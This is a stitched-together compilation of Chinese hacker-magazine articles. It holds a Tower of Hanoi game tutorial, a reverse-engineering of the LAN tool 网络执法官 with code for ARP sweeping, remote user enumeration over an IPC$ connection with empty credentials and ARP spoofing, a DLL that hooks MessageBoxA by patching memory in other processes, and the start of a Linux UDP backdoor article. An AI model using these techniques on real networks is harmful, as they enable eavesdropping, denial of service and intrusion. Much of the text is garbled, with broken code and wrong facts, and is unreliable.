`pp=2`时；改变`pp`的值，让上面运行的代码在第2次的时候可以运行`sleep(1)`；让程序停止1秒，用来观看，否则将会直接看到结果，没有过程。`*/closegraph();/*`关闭图形初始化，如果没有这句，就会不断地加载图形，依据我的电脑的配置，到了第12步就进行不下去了，自动跳出，因为没有释放图形，导致内存不够。

紧接着就会回到`move`函数，`move`函数又回到`hanoi`，不断地调用，直到`c[aa]=0,d[bb]=0,e[cc]=1`的时候执行`win`函数。

```c
win()
{
int driver=DETECT,mode;
initgraph(&driver,&mode,"");
bar(0,0,1024,768);
closegraph();
clrscr();
printf("you win !");
sleep(3);
main();
}
```

这个不需要注释什么；停顿3秒后回到主函数。下面再说一下游戏部分，看主函数可以知道游戏部分是调用`play`函数

```c
void play()
{
int key;
int driver=DETECT,mode;
initgraph(&driver,&mode,"");
bar(0,0,1024,768);
closegraph();
clrscr();
printf("input the number of disks:");
scanf("%d",&m);/*初始化的一些东西,同样是询问你盘子的个数*/
if (p==i)
{
for(i=1;i<=m;i++)
{c[i]=tp=2;}
for(i=1;i<=(m+1)/2;i++)
{
hh=m+1-i;
gg=f[i];f[i]=h[hh];h[hh]=gg;
draw(n,m,xx,yy,zz);
```

```c
/*这部分和move函数里面的基本一样，这个也是3次颠倒，只不过最后一次颠倒*/
while(1)
{
for(i=1;i<=(m+1)/2;i++)
{
hh=m+1-i;
gg=c[i];c[i]=c[hh];c[hh]=gg;
}
/*颠倒一次，为了计算*/
key=bioskey(0);
if((key==rt&&n==3)n=1;
else if (key==lt&&n==1)n=3;
else if (key==lt&&n>1)n=n-1;
else if (key==rt&&n<3)n=n+1;
/*判断方向按键与n的情况，来决定光标的位置*/
else if(key==et&&ww==1)
{
ww=2;
if((n==1&&d[xx]==0)||(n==2&&d[yy]==0)||(n==3&&e[zz]==0))
{clrscr();printf("can not put a empty line!");sound(440);
delay(500);nosound();ww=1;}
if(n==1&&ww==2){w=c[xx];c[xx]=0;xx=xx+1;}
if(n==2&&ww==2){w=d[yy];d[yy]=0;yy=yy-1;}
if(n==3&&ww==2){w=e[zz];e[zz]=0;zz=zz-1;}}
else if (key==et&&ww==2)
{
ww=1;
if((n==1&&d[xx]<w)||(n==2&&d[yy]<w)||(n==3&&e[zz]<w))
{clrscr();printf("can not put the big plate on little plate!");sound(440);
delay(500);nosound();ww=2;}
if(n==1&&ww==1){c[xx]=w;xx=xx-1;}
if(n==2&&ww==1){d[yy]=w;yy=yy+1;}
if(n==3&&ww==1){e[zz]=w;zz=zz+1;}
draw(n,m,xx,yy,zz);
}
```

用回车和`ww`变量判断，应该是这个程序里比较好的代码。`ww`是用来识别是否移动，在`ww=1`情况下，首先令`ww=2`，也就是判断是否底座上没有碟子。如果没有再变状态，`ww=1`，还有错误警报，这里本来想加入个声音，但是为什么警报只能一次，以后再出错就不响了，希望大家指点一下。如果没有出错，则会将碟子在原来的底座上清除，当再次按回车，也就是执行指令，再次判断是否比上面的碟子小，如果是，则把状态还原。如果不是，则将汉诺塔添加到新的底座上，然后执行`draw`函数，画出状态。这样整个程序就完了，这是我做的第一个游戏，希望大家满意一下。

# 网络执法官

### 适合读者：程序员，远程控制开发者

### 前置知识：C/C++

### 核心技术初探

四川大学信息安全研究所

大家都知道，现在网络资源越来越有限，相信很多读者都有过抢IP的经历，如果你是网络流量的忠实读者，一定介绍过一个抢IP强大的工具——网络执法官。

网络执法官是一款国产局域网辅助软件，采用网络底层协议，能穿透各种防火对对网络每一台主机进行监控。它采用网卡MAC地址识别用户，可靠性高；软件本身占用资源少，对网络没有不良影响。软件不需运行于指定的服务器，在网内任何主机上运行即可有效监控所有连接到的网络（支持多网段监控），功能十分强大。网络执法官(v2.9试用版)的主界面如图所示。


不过，本文的目的不是介绍执法官的功能及用法，而是探索其实现的核心技术，这才是黑客精神的本质（开玩笑，我不敢自称黑客）。废话少说，让我们开始吧。

从图1的主界面，我们选择“本机状态”视图，如图2所示。大家注意框住的那三个地方，分别是本机网卡参数、当前连接(TCP/UDP)状态和CPU使用率。今天我们就先讨论并实现这三个技术吧。

以下程序均在Windows sp1 + VC7环境下编译通过！


细心的读者可能发现，网络执法官获得的网卡参数就跟我们在CMD命令行下用“`ipconfig /all`”这条命令得到是一样的，如图3所示。

哈哈，这下就好办了。搬出强大的IDA(The Interactive Disassembler)反汇编利器，从系统目录`system32`里把`ipconfig.exe`找出来并加载到IDA去（有读者问为什么不反汇编执法官呢？执法官比`ipconfig.exe`大得多，包含的导入函数肯定很多，本人后来也曾用IDA来反汇编执法官的主程序`Robocop.exe`，等我喝完茶、上完厕所、听了首歌，它才很辛苦地反汇编完……然后选择主菜单->Windows->Imports(或直接ALT+4），看到只有为数不多的几个函数，我们的目光一下子就可以定位在图4所示的地方了。

全部调用的都是`iphlpapi`库里的API，就在我利用MSDN查看上面框住的每一个API时，无意中找到了`GetAdaptersInfo()`这个API函数，该函数内部已经封装了`ipconfig.exe`可以实现的大部分功能函数。定义如下：

```c
DWORD GetAdaptersInfo(
    PIPADTER_INFO pAdapterInfo, // 取得适配器信息
    PULONG pOutBufLen // 适配器信息长度
);
```

图4

这里注意几点：

1. 该函数必须加上`#include <iphlpapi.h>`头文件和`#pragma comment(lib,"iphlpapi.lib")`语句。当然也可以用`LoadLibrary("iphlpapi.dll")`来加载库。
2. 真正使用`GetAdaptersInfo()`之前必须先初始化，调用`GetAdaptersInfo()`获取第二个参数的大小，如下：

```c
// 分配空间
pAdapterInfo = (ADAPTER_INFO *)malloc(sizeof(ADAPTER_INFO)); // 必须先初始化ADAPTER_INFO结构大小
ULONG ulOutBufLen = sizeof(ADAPTER_INFO); // 取得ulOutBufLen的值
if (GetAdaptersInfo(pAdapterInfo, &ulOutBufLen) == ERROR_BUFFER_OVERFLOW) {
    free(pAdapterInfo); // 释放掉原来的
    pAdapterInfo = (ADAPTER_INFO *)malloc(ulOutBufLen); // 重新分配空间
}
```

这样，感兴趣的东西都放在`pAdapterInfo`指向的结构里，该结构的MSDN描述：

```c
typedef struct _ADAPTER_INFO {
    struct _ADAPTER_INFO *Next; // 下一块网卡信息
    DWORD ComboIndex; // 保留
    char AdapterName[MAX_NAME_LENGTH + 4]; // 适配器名字
    char Description[MAX_DESCRIPTION_LENGTH + 4]; // 适配器描述
    UINT AddressLength; // 地址长度
    BYTE Address[MAX_ADDRESS_LENGTH]; // MAC地址
    DWORD Index; // 网卡索引号
    UINT Type; // 网卡类型
    UINT DhcpEnabled; // 是否开启DHCP
    IP_STRING CurrentIpAddress; // 当前IP地址
    IP_STRING IpAddressList; // IP列表
    IP_STRING GatewayList; // 网关地址
    IP_STRING DhcpServer; // DHCP服务器地址
    BOOL HaveWins; // 是否使用Internet Name Service (WINS)
    IP_STRING PrimaryWinsServer; // 主WINS服务器
    IP_STRING SecondaryWinsServer; // 次WINS服务器
    time_t LeaseObtained;
    time_t LeaseExpires;
} ADAPTER_INFO, *PIPAPTER_INFO;
```

哇，看到可以获得这么多重要的信息，你是不是已经在流水啦……我们当然也可以用IDA显示那几个API来实现，大家自己做练习。具体的实现代码看附件(`MacInfo.cpp`)。

### 核心技术三：显示TCP/UDP的可视化连接

看完上面技术的实现，聪明的读者肯定想到了这一技术的实现可以如此制。要想成为高手不是靠一股冲动和蛮力就可以到的，要靠机智和变通，要学会一反三。TCP/UDP的当前连接让你起了什么？对，`netstat`！我们在命令行下的输入“`netstat –an`”。得到截图。如图5所示。


图5

是不是和图2执法官实现一样呢？不一样，本地和远程的位置放反了！重复上面的工作，用IDA加载系统目录`system32`里的`netstat.exe`，发现还是加载了`iphlpapi`库的API函数，如图6所示。图6框中显示的分别是`GetUdpStatsFromStackEx()`、`GetTcpStatsFromStackEx()`、`GetIpStatsFromStackEx()`、`GetIcmpStatsFromStackEx()`、`AllocateGetTcpExTableFromStack()`和`AllocateGetUdpExTableFromStack()`这6个API函数。查了查MSDN，晕死，这些API全都没查到，换言之它们应该是微软未文档化的函数（我猜的）。

那怎么办？不能就这样干瞪眼。注意到MSDN中`iphapi`库给出的API函数有几个与上面列出的极为相似。比如

```c
DWORD GetIpStatistics(
  // 获得当前计算机的IP统计数据
  MIB_IPSTATS pStats; // 指向运行在计算机上的IP信息的存储结构
);
```

`GetUdpStatistics()`、`GetTcpStatistics()`和`GetIcmpStatistics()`原型与`GetIpStatistics()`类同，其中重点在于分析`MIB_IPSTATS`、`MIB_TCPSTATS`等结构体的成员上，从这些函数的名字就可以知道，它们的作用在于获取当前计算机的IP、TCP、UDP、ICMP等协议的统计数据。看下面这个函数：

```c
DWORD GetTcpTable(          // 获得TCP连接表
  MIB_TCPTABLE pTcpTable,   // 指向TCP连接表的缓冲区
  DWORD dwTableSize,        // 表格大小
  BOOL bOwnered             // 是否所有者
);
```

这里重点在于分析`MIB_IPSTATS`、`MIB_TCPSTATS`等结构体的成员。可以看到这种不断的变化，如图7。


图6

# PROGRAMMING ANALYSE 编程解析 >>>

> 栏目编辑 )socket ) socket@hacker.com.cn

```cpp
//: 当前CPU使用率% = 100 - (当前空闲时间*100)/CPU处理器个数
dwIdleTime := 100.0 - dwIdleTime * 100.0 / (double)SysBaseInfo.dwNumberOfProcessors + 0.5;
// 打印显示
printf("\b\b\b\b\b%3d%%",(UINT)dwIdleTime);
// 存储新的CPU空闲时间和系统时间
iOldIdleTime = SysPerfInfo.iIdleTime;
iOldSystemTime = SysTimeInfo.liKeSystemTime;
// 每一秒刷新一次
Sleep(1000);
```

其中，上面的 `Li2Double()` 是一个宏，定义如下：

```cpp
#define Li2Double(x) ((double)((x).HighPart) * 4.294967296E9 + (double)((x).LowPart))
```

作用是把`LARGE_INTEGER`类型转换成`Double`类型，方便计算。

## 小结

1. 网上的网络执法官几乎都是试用版，好像找不到破解版和注册版，试用版的功能和使用都有限制，让人觉得不爽。所以希望本文能给大家一点启示，因为理解了该软件相关的核心技术原理后，聪明的你也能打造属于自己的网络执法官了！

2. 在网络执法官之前必须安装Winpcap3.0以上版本驱动库，所以网络执法官的大多数功能应该都是基于Winpcap设计的，本篇给出的只是模拟实现。


3 ) 囿于篇幅原因，网络执法官最核心的局域网内MAC地址获取及ARP欺骗技术本文并没涉及，我们将在《网络执法官核心技术初探（下）》中进行深入讨论。

适合读者: 程序员，系统安全研究者

前置知识: C/C++基础

# 网络执法官核心技术初探 (下)

文/图 四川大学信息安全研究所 古开元

我们在上一期着重介绍了网络执法官中本机网卡参数,当前连接(TCP/UDP)状态和CPU使用率三个技术的实现,在这一期,我们接着上一期的步伐继续前进,学习网络执法官的最为重要的其它几个核心技术的实现,界面如图1所示。以下程序在Windows XP SP1 + VC7下编译测试通过。



网络执法官会在用户列表里显示本地局域网内所有主机的网卡地址,是否上线,IP地址,域,主机及用户名,上线下线时间和网卡注释。当然,我们不会讨论诸如上下线及注释之类的问题，本文将着重讲述局域网内所有存活主机的MAC地址探测获取及主机信息的获取,和网络执法官的ARP Spoof(哄骗)技术。

## 技术实现四：探测存活MAC地址

该技术主要涉及到了一个`Iphlpapi`的库函数`SendARP()`,该函数的MSDN描述如下：

```cpp
DWORD SendARP(
  IPAddr DestIP, // 目标IP地址
  IPAddr SrcIP,  // 源IP地址
  PULONG pMacAddr, // MAC地址
  PULONG PhyAddrLen // Mac地址长度
);
```

该函数在VC6的SDK上不支持,而且系统版本要在Windows 2000以上如果你的开发环境达不到要求,就只有忍痛了。有了`SendARP()`这个函数后,我们的工作很Easy,遍历扫描整个局域网就OK了,实现源代码如下：

```cpp
#include <windows.h>
#include <stdio.h>
#include <tchar.h>
#include <Iphlpapi.h> // vc6好像没有这个头文件
#pragma comment(lib, "ws2_32.lib")
#pragma comment(lib, "Iphlpapi.lib")
int _tmain(int argc, TCHAR* argv[])
{
    HRESULT hr;
    IPAddr ipAddr;
    ULONG pulMac[2];
    ULONG ullLen;
    char ip[20] = {0};
    for (int xx=0; xx<254; xx++)
    {   // 查询局域网内从1 - 254 的主机MAC地址
        sprintf(ip,"192.168.3.%d", xx+1); // 这里换成你的LAN网络地址
        // 网络地址信息
        ipAddr = inet_addr (ip);
        memset (pulMac, 0xff, sizeof (pulMac));
        ullLen = 6;
        // 发送ARP请求获得指定IP地址的MAC地址
        hr = SendARP (ipAddr, 0, pulMac, &ullLen);
        if ( hr != NO_ERROR ) // 如果对方无响应则跳过
            continue;
        printf ("IP: %s\n", ip); // 列出响应的IP

        // 分配空间
        char * szMac = new char[ullLen*3];
        PBYTE pbHexMac = (PBYTE) pulMac;
        // 转换成可读的16进制形式
        size_t i, j;
        for (i = 0, j = 0; i < ullLen - 1; ++i)
        {
            j += sprintf (szMac + j, "%02X:", pbHexMac[i]);
        }
        sprintf (szMac + j, "%02X", pbHexMac[i]);
        // 打印出来
        printf (" MAC: %s\n", szMac);
        // 释放空间
        delete [] szMac;
    }
    return 0; // Done
}
```

代码的注释一目了然，编译后运行效果如图2所示。是不是没你想象中那么复杂呢？


## 技术实现五：获取局域网内主机用户列表

获取远程主机用户列表不算是个很新的技术，如果写过IPC弱口令扫描的读者对它应该不陌生，其实可以利用探测NetBios的技术来实现，最主要的API函数是`NetQueryDisplayInformation()`，该函数的MSDN描述如下：

```cpp
NET_API_STATUS NetQueryDisplayInformation(
    LPCWSTR ServerName,//远程主机DNS 或 NETBIOS 名
    DWORD Level,        // 选项级别，1->显示用户信息，2->显示机器信息，3->显示组信息
    DWORD Index,        // 所获得信息的第一个索引号
    DWORD EntriesRequested, // 入口的最大数，win2k以上为100
    DWORD PreferredMaximumLength, // 最大长度，一般为MAX_PREFERRED_LENGTH 字节
    LPDWORD ReturnedEntryCount,  // 获得SortedBuffer返回的入口计数
    PVOID*SortedBuffer // 接收数据缓冲区，由系统分配
);
```

我给出的实现源代码截取了Too2y师兄的T-SMB源代码，代码片段如下：

```cpp
{
    NETRESOURCE nr;
    DWORD    ret;
    TCHAR    username[100]=_T("");
    TCHAR    password[100]=_T("");
    TCHAR    ipc[100]=_T("");
    swprintf(ipc,_T("\\\\%s\\ipc$"),argv[1]); // 构造远程IPC服务地址
    nr.lpLocalName=NULL; // 填充NETRESOURCE的主要成员
    nr.lpProvider=NULL;
    nr.dwType=RESOURCETYPE_ANY;
    nr.lpRemoteName=ipc;
    ret=WNetAddConnection(&nr,username,password,0); // 建立IPC连接
    users(argv[1]); // 获得用户信息
    ret=WNetCancelConnection(ipc,0,TRUE); // 取消连接
}
```

可以看到，我把获得信息的函数封装在了`Users()`里，该函数的实现如下：

```cpp
int users(PTSTR server)
{
    PNET_DISPLAY_USER pBuf,pBuffer;
    DWORD        nStatus;
    DWORD        dwRec;
    DWORD        i=0;
    DWORD        error;
    DWORD        dwLevel;
    dwLevel=1; // 1 为用户信息
    _tprintf("\n********Users********\n"); // 显示头
    do {
        nStatus=NetQueryDisplayInformation(server,dwLevel,i,100,0xFFFFFFFF,&dwRec,(PVOID *)&pBuf);
        if((nStatus==ERROR_SUCCESS) || (nStatus==ERROR_MORE_DATA)) {
            pBuffer=pBuf;
            for(dwRec>0;dwRec--) { // 显示用户信息，包括感兴趣的主机名，ID，及评论
                _tprintf("\nName:\t%s",pBuffer->usri1_name);
                _tprintf("\nFull Name:\t%s",pBuffer->usri1_name);
                _tprintf("\nUser ID:\t%u",pBuffer->usri1_id);
                _tprintf("\nComment:\t%s",pBuffer->usri1_comment);
                _tprintf("\nFlag:\t%s");
                i=pBuffer->usri1_next_index;
                pBuffer++;
            }
        } else { // 出错了！
            error=GetLastError();
            _tprintf("\nError:%d\n",error);
            if(pBuf != NULL) NetApiFree(pBuf); // 一定释放分配的资源
        }
    } while(nStatus == ERROR_MORE_DATA);
    return 0;
}
```

选取局域网内192.168.3.10主机进行测试，程序运行结果所示。



利用Netbios，读者还可以获得更多信息，感兴趣的读者不妨网上下载Too2y师兄相关的源代码，很有学习价值！

## 技术实现六：ARP Spoof技术

网络执法官最重要的功能就是它的管理功能。选中某台主机，右键->设定权限，就可以看到图4的对话框。


下面来实现图4中的管理功能，这也是DD们最喜欢的，因为依靠这两个功能，我们可以轻易“抢”IP了。如果你是黑忠实读者，可以复习一下我在2005年11期的另一篇文章《ARP Spoof编程实战》，实现的原理及代码几乎一样。我们先来看看ARP Spoof原理，如图5、图6所示。


从这两张图中，可以大致了解了ARP Spoof的主要思想。下面是核心代码：

> 本代码用到了WinpCap，所以你必须安装winpcap3.0以上驱动库。

```cpp
// 定义些变量
pcap_t *fp;
unsigned char buff[BUFSIZ],mac[ETHERLEN+1];
int i, tmp;
DWORD ip_add, ip_dst;
ETHHDR *ether;
ARPHDR *arphdr;
WSADATA wsaData; // 获得目标IP
WSAStartup(MAKEWORD(2, 2), &wsaData);
ip_add = ResolveAddr(argv[1]); // 攻击目标
ip_dst = ResolveAddr(argv[2]); // 该地址可用来组织目标与该地址的通信
WSACleanup();
fp=GetInterface(); // 获得本地接口，参照源代码
ether = (ETHHDR)buff;
arphdr = (ARPHDR)(buff+ETHSIZE);
srand(time(NULL));
sprintf((char*)mac, "%c%c%c%c%c%c", rand(), rand(), rand(), rand(), rand(), rand()); // 获得随机MAC地址
mac[ETHERLEN]=0x00; // 构造伪Ethernet头和ARP头
memcpy(ether->eh_dst, DEST, ETHERLEN);
memcpy(ether->eh_src, mac, ETHERLEN);
ether->eh_type = htons(ETHERTYPE_ARP);
arphdr->arp_hrd = htons(ARPHDR_ETHER);
arphdr->arp_pro = htons(ETHERTYPE_IP);
```


# 编程解析 PROGRAMMING ANALYSE

栏目编辑:socket)socket@hacker.com.cn

适合读者: 黑客程序员，木马爱好者

前置知识: C/C++基础

## 珠联璧合 再探API拦截技术

文/图 西目

API拦截并不是一个新的技术，很多商业软件都采用这种技术。对Windows的API函数的拦截，不外乎两种方法。第一种是Mr. Jeffrey Richter的修改`exe`文件的模块输入节，这种方法很安全但很复杂，而且有些`exe`文件，没有`Dll`的输入符号的列表，有可能出现拦截不到的情况。第二种方法就是常用的`JMP XXX`的方法，虽然很古老，却很简实用。

本文介绍...

子来说明,其中`DLL`文件为:

```cpp
HOOK g_hHook;
HINSTANCE g_hinstDll;
FARPROC pfMessageBoxA;
int WINAPI MyMessageBoxA(HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType);
BYTE OldMessageBoxACode[5],
NewMessageBoxACode[5];
HMODULE hModule;
DWORD dwOld,dwNew;
BOOL bHook=false;
void HookOn();
void HookOff();
BOOL init();
LRESULT WINAPI MouseHook(int nCode, WPARAM wParam, LPARAM lParam);
BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
	switch (ul_reason_for_call)
	{
		case DLL_PROCESS_ATTACH:
			if(!init())
			{
				MessageBoxA(NULL,"init ERROR",MB_OK);
				return(false);
			}
		case DLL_THREAD_ATTACH:
		case DLL_THREAD_DETACH:
		case DLL_PROCESS_DETACH:
			if(bHook) UninstallHook();
			break;
	}
	return TRUE;
}
LRESULT WINAPI Hook(int nCode, WPARAM wParam, LPARAM lParam) //空的钩子函数
{
	return(CallNextHookEx(g_hHook,nCode,wParam,lParam));
}
HOOKAPI2_API BOOL InstallHook() //输出安装的钩子函数
{
	g_hinstDll=LoadLibrary("HookApi2.dll");
	g_hHook=SetWindowsHookEx(WH_GETMESSAGE, (HOOKPROC)Hook,g_hinstDll,0);
	if (!g_hHook)
	{
		MessageBoxA(NULL,"SET ERROR","ERROR",MB_OK);
		return(false);
	}
	return(true);
}
HOOKAPI2_API BOOL UninstallHook() //输出卸载钩子函数
{
	return(UnhookWindowsHookEx(g_hHook));
}
BOOL init() //初始化得到MessageBoxA的地址,并生成Jmp XXX(MyMessageBoxA)的跳转指令
```


```cpp
{
	hModule=LoadLibrary("user32.dll");
	pfMessageBoxA=GetProcAddress(hModule, "MessageBoxA");
	if(pfMessageBoxA==NULL)
		return false;
	_asm
	{
		lea edi,OldMessageBoxACode
		mov esi,pfMessageBoxA
		cld
		movsd
		movsb
	}
	NewMessageBoxACode[0]=0xe9;//jmp MyMessageBoxA的相对地址的指令
	_asm
	{
		lea eax,MyMessageBoxA
		mov ebx,pfMessageBoxA
		sub eax,ebx
		sub eax,5
		mov dword ptr [NewMessageBoxACode+1],eax
	}
	dwIdNew=GetCurrentProcessId();//得到所属进程的ID
	dwIdOld=dwIdNew;
	HookOn();//开始拦截
	return(true);
}
int WINAPI MyMessageBoxA(HWND hWnd, LPCTSTR lpText,LPCTSTR lpCaption, UINT uType)//首先关闭拦截,然后才能调用被拦截的API函数
{
	int nReturn=0;
	HookOff();
	nReturn=MessageBoxA(hWnd,"Hook",lpCaption,uType);
	HookOn();
	return(nReturn);
}
void HookOn()
{
	HANDLE hProc;
	dwIdOld=dwIdNew;
	hProc=OpenProcess(PROCESS_ALL_ACCESS,0,dwIdOld);//得到所属进程的句柄
	VirtualProtectEx(hProc,pfMessageBoxA,5,PAGE_READWRITE,&dwIdOld);//修改所属进程中MessageBoxA的前5个字节的属性为可写
	WriteProcessMemory(hProc,pfMessageBoxA,NewMessageBoxACode,5,0);//将所属进程中MessageBoxA的前5个字节改为JMP到MyMessageBoxA
	VirtualProtectEx(hProc,pfMessageBoxA,5,dwIdOld, &dwIdOld);//修改所属进程中MessageBoxA的前5个字节的属性为原来的属性
	bHook=true;
}
void HookOff()//将所属进程中JMP MyMessageBoxA的代码改为Jmp MessageBoxA
{
	HANDLE hProc;
	dwIdOld=dwIdNew;
	hProc=OpenProcess(PROCESS_ALL_ACCESS,0,dwIdOld);
	VirtualProtectEx(hProc,pfMessageBoxA,5,
}
```

PROGRAMMING ANALYSIS 编程解析

栏目编辑：socket》socket@hacker.com.cn 

编辑：N.X

www.hacker.com.cn

《黑客防线》2007精华奉献本 上册 15

Socket Windows下的网络编程文章有很多,关于后门和木马、扫描器之类的文章更是多多。但是Linux下的Socket编程文章就比较少了,以下这篇文章从原理开始介绍,深入浅出地叙述了 Linux 系统下的一个套接口木马的详细编写方法。

适合读者:程序员,Linux 爱好者

前置知识:C/C++基础

# Linux下UDP后门的 Socket编程

文/图 吴贤



## 简介

Socket适用于网络环境中的进程通信,它已成为许多操作系统的API，也是网络操作系统的基础功能。尽管UDP无法像TCP一样可靠的数据传输,但UDP比TCP缺乏优越性。随着Linux操作系统和不断发展,Linux网络环境下基于UDP的Socket技术广为关注。本文介绍了Linux平台下的Socket及其原理,并通过一个Java编写的基于UDP的客户/服务器程序,描述了网络中不同主机之间的通信机制。Linux系统具有稳定、简易、兼容性好特点，并且支持多种协议，如IPV4、IPV6、IPX、NETBIOS等。Socket介于应用层和传输层之间的接口，提供了下层调用和相应数据结构,进程在Linux上的网络通信过程就是使用Socket套字，模型如图所示。


## BSD Socket接口

Socket最早应用于大学中,所以习惯上称其为BSD Socket(简称BSD)。一个Socket描述一个通信连接的端,在一个连接中的两端,通过各自的套字发送和接收消息,从而实现进程跨网络的通信。Linux环境中的Socket支持多种工作方式,使用不同的地址格式列出了常见地址族：

| 地址族 | 对应的通信协议 |
| :--- | :--- |
| `AF_INET` | TCP/IP |
| `AF_IP` | Novell IPX |
| `AF_UNIX` | UNIX |
| `AF_DGRAM` | UDP |
| `AF_PACKET` | Macintosh |

BSD Socket地址族的主要类型

Linux将套字抽象为统一的地址族,该接口是应用程序开发专有的。套字类型：

- `SOCK_STREAM`(数据流): 提供面向连接的双工顺序数据传输和可靠传输。这种套字可以保证数据传输的可靠性，不会出现丢失、重复等错误，而且通过流量控制避免数据流超限。

- `SOCK_DGRAM`(数据报): 提供无连接和不可靠的双工传输服务。数据报以独立包形式发送和接收。不对数据的传输提供保证，即数据可能被丢失、破坏，也可能被重复。

- `SOCK_RAW`(原始接口): 这种类型的套字允许对低层协议如 IP 或 ICMP 直接访问，可以直接填充 IP、TCP、UDP 或者 ICMP 包头，发送用户定义的 IP 包或者 ICMP 包。主要用于网络安全的抓包。

Linux给分布式应用程序提供两类服务，一是面向连接的服务，二是无连接服务。面向连接的服务由 TCP 提供，客户和服务器在彼此间发送数据之前要建立三次握手，以确保发送端的数据按顺序完整无误地传送给接收端。无连接服务由 UDP 提供，发送端和接收端在传送数据之前不需要握手，因而带入任何延迟。在无连接模式下，客户程序没有把Socket连接到一个指定的端点上，而是在每次发送数据报时指定远程目的地。因而 UDP具有相当的灵活性，客户可以在它要求发送时决定和哪个服务器交互。

## Linux平台下的Socket编程原理

在 Linux中，Socket属于文件系统的一部分，网络通信可以看作是对文件的读取。这使得用户对网络的控制极为方便，Linux的许多特性都有助于网络编程。首先，Linux拥有POSIX标准库函数，`Socket()`、`Bind()`、`Sendto()`、`Recvfrom()`等库函数可以方便地实现客户/服务器模型中的数据传送与接收。其次，Linux进程管理也非常适合服务器环境，每个进程对应一个父进程，发送端的进程创建多个子进程。第三，Linux传承了设备无关性这一优秀特性，即通过文件描述符实现了统一的设备接口。

对于新手来说，必须知道以下几个函数的用法：

